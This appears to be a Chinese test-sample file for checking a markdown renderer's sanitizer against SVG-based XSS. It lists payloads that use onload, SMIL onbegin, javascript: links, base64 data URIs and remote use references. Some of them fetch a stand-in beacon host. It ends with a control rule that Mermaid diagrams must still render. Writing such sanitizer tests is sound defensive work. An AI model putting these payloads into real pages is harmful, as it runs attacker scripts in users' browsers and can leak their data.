

# XSS 样本 03：SVG 内嵌脚本与 onload

**攻击手法**：SVG 是"会执行脚本的图片"。内联 SVG 既可以带 `onload` 事件属性，也可以在 `<svg>` 内部直接嵌 `
  <rect width="100" height="100" fill="#888" />
</svg>

## payload 3：SMIL animate onbegin

<svg width="100" height="100">
  <animate onbegin="alert('XSS-03-C')" attributeName="x" dur="1s" />
</svg>

<svg width="100" height="100">
  <set attributeName="x" onbegin="fetch('https://xss-beacon.example.invalid/03-d')" />
</svg>

## payload 4：foreignObject 引入 HTML 上下文

<svg width="200" height="100">
  <foreignObject width="200" height="100">
    
悬停这里

    
  </foreignObject>
</svg>

## payload 5：svg 内的 a 标签 + javascript 协议

<svg width="100" height="100">
  <a xlink:href="javascript:alert('XSS-03-G')"><text x="10" y="20">点我</text></a>
</svg>

## payload 6：use 引用远程/数据 URI 的 SVG

<svg width="100" height="100">
  <use href="data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIG9ubG9hZD0iYWxlcnQoMSkiPjwvc3ZnPg==" />
</svg>

<svg width="100" height="100">
  <use href="https://xss-beacon.example.invalid/03-h.svg#icon" />
</svg>

## payload 7：外部 SVG 当作图片引入（浏览器中不执行脚本，但会产生外网请求）

## payload 8：SVG 作为 CSS 背景

背景 SVG

---

## 对照组（Mermaid 生成的 SVG 必须正常显示）

> **判定口径**：所有 payload 不执行、无外网请求；同时 Mermaid 图仍正常渲染——消毒策略不能因为"SVG 危险"就把 Mermaid 一起干掉。
> 这条对照非常关键：Mermaid 的输出是**渲染后**插入的 SVG，与文档内联 SVG 走的是不同路径，消毒配置必须分别处理。
